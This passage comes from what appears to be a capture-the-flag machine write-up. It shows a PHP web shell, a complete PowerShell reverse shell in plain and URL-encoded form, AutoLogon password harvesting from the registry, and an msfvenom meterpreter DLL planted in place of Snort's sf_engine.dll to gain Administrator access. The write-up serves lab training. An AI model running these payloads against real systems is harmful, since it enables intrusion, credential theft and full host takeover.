<?php system($_GET['c']); ?>
```

![](svc_web_shell.png)

Now, we can open a listener and create a PowerShell-based reverse shell:

```bash
# opening a listener to catch the shell
$ nc -lnvp 1337
listening on [any] 1337 ...
```

```bash
# our reverse PowerShell code
$ cat revps
powershell -ep bypass -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();"
```

Next, we can **URL-encode** our shell via [CyberChef](https://gchq.github.io/CyberChef):

![](cyberchef.png)

```bash 
# URL-encoded payload
powershell%20%2Dep%20bypass%20%2Dnop%20%2Dc%20%22%24client%20%3D%20New%2DObject%20System%2ENet%2ESockets%2ETCPClient%28%2710%2E10%2E14%2E16%27%2C1337%29%3B%24stream%20%3D%20%24client%2EGetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200%2E%2E65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream%2ERead%28%24bytes%2C%200%2C%20%24bytes%2ELength%29%29%20%2Dne%200%29%7B%24data%20%3D%20%28New%2DObject%20%2DTypeName%20System%2EText%2EASCIIEncoding%29%2EGetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out%2DString%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29%2EPath%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext%2Eencoding%5D%3A%3AASCII%29%2EGetBytes%28%24sendback2%29%3B%24stream%2EWrite%28%24sendbyte%2C0%2C%24sendbyte%2ELength%29%3B%24stream%2EFlush%28%29%3B%7D%24client%2EClose%28%29%3B%22
```

We are now ready to pass it as a command to our webshell and catch our reverse shell back:

```bash
# opening a listener to catch the shell
$ sudo nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.250] 53288
whoami
analysis\svc_web
PS C:\inetpub\internal\dashboard\uploads>
```

## Lateral movement

Upon exploring the target, there are some things to note down:

```bash
PS C:\inetpub\internal\dashboard\uploads> dir c:\


    R?pertoire?: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/06/2023     10:01                inetpub
d-----       05/11/2022     20:14                PerfLogs
d-----       08/05/2023     10:20                PHP
d-----       23/01/2024     22:13                private
d-r---       18/11/2023     09:56                Program Files
d-----       08/05/2023     10:11                Program Files (x86)
d-----       09/07/2023     10:57                Snort
d-r---       26/05/2023     14:20                Users
d-----       24/01/2024     01:15                Windows
-a----       24/01/2024     08:08         363136 snortlog.txt

PS C:\inetpub\internal\dashboard\uploads> dir c:\users


    R?pertoire?: C:\users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/01/2024     10:33                Administrateur
d-----       05/01/2024     21:29                jdoe
d-r---       07/05/2023     21:44                Public
d-----       26/05/2023     11:02                soc_analyst
d-----       26/05/2023     14:20                webservice
d-----       23/05/2023     10:10                wsmith
```

1. [**Snort**](https://www.crowdstrike.com/cybersecurity-101/threat-intelligence/snort-rules/) is used on the target:

	_**Snort** is an open-source network **intrusion detection and prevention system (IDS/IPS)** that monitors network traffic and identifies potentially malicious activities on Internet Protocol (IP) networks._

2. There are multiple users: `Administrateur`, `jdoe`, `soc_analyst`, `wsmith`, and `webservice`, and we have access to none of them.

We can start seaching for locations that might contain interesting info, for example, looking for the "*password*" keyword in the Windows registry. Skimming across the output, we see this:

> [THM Red Teaming path: Active Directory - Credentials Harvesting](https://tryhackme.com/paths).

```bash
*Evil-WinRM* PS C:\Users\jdoe\Documents> reg query HKLM /f password /t REG_SZ /s

<SNIP>

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    7y4Z4^*y9Zzj

<SNIP>
```

Upon closer inspection of this file:

```bash
PS C:\inetpub\internal\dashboard\uploads> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
<SNIP>
    DefaultPassword    REG_SZ    7y4Z4^*y9Zzj
    AutoLogonSID    REG_SZ    S-1-5-21-916175351-3772503854-3498620144-1103
    LastUsedUsername    REG_SZ    jdoe
<SNIP>
```

It seems that we have found some credentials: `jdoe:7y4Z4^*y9Zzj`! We can try logging in via WinRM:

```bash
$ evil-winrm -i 10.10.11.250 -u jdoe -p 7y4Z4^*y9Zzj

<SNIP>

*Evil-WinRM* PS C:\Users\jdoe\Documents> ls ..\Desktop

    Directory: C:\Users\jdoe\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/23/2024  10:11 PM             34 user.txt

*Evil-WinRM* PS C:\Users\jdoe\Documents> type ..\Desktop\user.txt
<SNIP>
```

## Privilege escalation

We can start searching for potential privesc routers using [winPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20240121-3ce7876d). We can launch a Python HTTP server, download the file from the target and execute it:

```bash
# start an HTTP server
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```bash
# download winpeas executable
*Evil-WinRM* PS C:\Users\jdoe> wget http://10.10.14.16:8888/winPEASx64.exe -o recon.exe
# run winpeas
*Evil-WinRM* PS C:\Users\jdoe>.\recon.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  analysis.htb.
    DefaultUserName               :  jdoe
    DefaultPassword               :  7y4Z4^*y9Zzj

<SNIP>

   =================================================================================================

    Snort(Snort)[C:\Snort\bin\snort.exe /SERVICE] - Autoload - No quotes and Space detected
    Possible DLL Hijacking in binary folder: C:\Snort\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])
   =================================================================================================

<SNIP>

   =================================================================================================


ÉÍÍÍÍÍÍÍÍÍÍ¹ Scheduled Applications --Non Microsoft--
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (ANALYSIS\Administrateur) run_bctextencoder: C:\Users\jdoe\AppData\Local\Automation\run.bat
    Permissions file: jdoe [AllAccess]
    Permissions folder(DLL Hijacking): jdoe [AllAccess]
    Trigger: At log on of ANALYSIS\jdoe

   =================================================================================================

<SNIP>
```

`winPEAS` was able to find the credentials we already have, and two possible DLL Hijacking vulnerabilities, one related to Snort. After searching for "*DLL hijacking snort*", this page pops up: [Snort 2.9.7.0-WIN32 DLL Hijacking](https://packetstormsecurity.com/files/138915/Snort-2.9.7.0-WIN32-DLL-Hijacking.html) which is associated with [CVE-2016-1417](https://nvd.nist.gov/vuln/detail/CVE-2016-1417). Among others, this article mentions:

    _`snort.exe` can be exploited to execute arbitrary code on victims system via DLL hijacking, the vulnerable DLL is `tcapi.dll`. If a user opens a `.pcap` file from a remote share using `snort.exe` and the DLL exists in that directory._

    Then goes up and lists some steps:
    1. create any empty file on a remote dir share with a `.pcap` extension
    2. place arbitrary DLL named  `tcapi.dll` in remote share
    3. open with `snort.exe`
    4. BAM!

In our case `snort` is already up and running:

```bash
# getting information about the snort process
*Evil-WinRM* PS C:\Users\jdoe> Get-Process snort

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    154      16    38560      18784              4912   0 snort

# getting snort's version
*Evil-WinRM* PS C:\Users\jdoe\Documents> C:\Snort\bin\snort.exe -V
snort.exe :
    + CategoryInfo          : NotSpecified: (:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
   ,,_     -*> Snort! <*-  o"  )~   Version 2.9.20-WIN64 GRE (Build 82)    ''''    By Martin Roesch & The Snort Team: http://www.snort.org/contact#team           Copyright (C) 2014-2022 Cisco and/or its affiliates. All rights reserved.           Copyright (C) 1998-2013 Sourcefire, Inc., et al.           Using PCRE version: 8.10 2010-06-25           Using ZLIB version: 1.2.11
```

> [DLL Hijacking Practical](https://www.cs.toronto.edu/~arnold/427/16s/csc427_16s/tutorials/DLLHijacking/DLL%20Hijacking%20Practical.pdf)

Snort's version is: `2.9.20-WIN64`, but the vulneratiblity we found is for `2.9.7.0-WIN32`. Since we don't have much else to try and `winPEAS` highlighted it, let's give a try anyway! 

Looking at Snort's configuration file, it seems like it uses `sf_engine.dll` (instead of `tcapi.dll`) and picking it up from `C:\Snort\lib\snort_dynamicpreprocessor`:

```bash
# reading snort's configuration file
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> type ../../etc/snort.conf

<SNIP>

###################################################
# This file contains a sample snort configuration.
# You should take the following steps to create your own custom configuration:
#
#  1) Set the network variables.
#  2) Configure the decoder
#  3) Configure the base detection engine
#  4) Configure dynamic loaded libraries
#  5) Configure preprocessors
#  6) Configure output plugins
#  7) Customize your rule set
#  8) Customize preprocessor and decoder rule set
#  9) Customize shared object rule set
###################################################

<SNIP>

###################################################
# Step #4: Configure dynamic loaded libraries.
# For more information, see Snort Manual, Configuring Snort - Dynamic Modules
###################################################

# path to dynamic preprocessor libraries
dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor

# path to base preprocessor engine
dynamicengine C:\Snort\lib\snort_dynamicengine\sf_engine.dll

# path to dynamic rules libraries
# dynamicdetection directory C:\Snort\lib\snort_dynamicrules
```

We can find out if the `snort` process is running with elevated privileges:

```bash
*Evil-WinRM* PS C:\Users\jdoe> Get-Process | Add-Member -Name Elevated -MemberType ScriptProperty -Value {if ($this.Name -in @('Idle','System')) {$null} else {-not $this.Path -and -not $this.Handle} } -PassThru | Format-Table Name,Elevated | findstr snort
snort                                     True
```

Next, we can try creating a malicious DLL with the same name, i.e., `sf_engine.dll`, containing reverse shell code, so the `snort` process can pick it up and execute it with elevated privileges:

```bash
# creating a malicious DLL
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=10.10.14.16 LPORT=9999 > sf_engine.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes

# starting a Python HTTP server
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```bash
# download the malicious DLL
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> wget http://10.10.14.16:8000/sf_engine.dll -o sf_engine.dll

# confirm the file was downloaded
*Evil-WinRM* PS C:\snort\lib\snort_dynamicpreprocessor> ls

    Directory: C:\snort\lib\snort_dynamicpreprocessor

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
<SNIP>
-a----        1/23/2024  10:13 PM           9216 sf_engine.dll
<SNIP>
```

Finally, we can launch our meterpreter and wait to catch our shell:

```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.16:9999
[*] Sending stage (200774 bytes) to 10.10.11.250
[*] Meterpreter session 7 opened (10.10.14.16:9999 -> 10.10.11.250:63692) at 2024-01-24 12:44:05 +0000

meterpreter > getuid
Server username: ANALYSIS\Administrateur
meterpreter > shell
Process 3120 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type c:\users\administrateur\desktop\root.txt
type c:\users\administrateur\desktop\root.txt
<SNIP>
``` -->

![](machine_pwned.png){: width="75%" .normal}